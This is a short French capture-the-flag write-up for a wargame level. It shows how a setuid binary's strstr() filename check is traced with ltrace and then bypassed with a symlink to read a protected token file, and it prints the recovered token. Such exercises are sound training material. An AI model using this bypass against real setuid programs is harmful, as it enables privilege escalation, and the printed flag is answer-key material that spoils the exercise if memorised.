 ```shell
ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

./level08 token 
You may not access 'token'
```
le token est vraisemblablement dans token mais on a aucun acces.


analysons ave ltrace:
```shell
ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")               = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
) = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
la fonction strstr() semble regarder si le fichier est = 'token' et nous rejeter

avec un lien symbolique on va donner le bon fichier mais en changeant son nom:
```shell
ln -s ~/token /tmp/tOken
./level08 /tmp/tOken
quif5eloekouj29ke0vouxean
```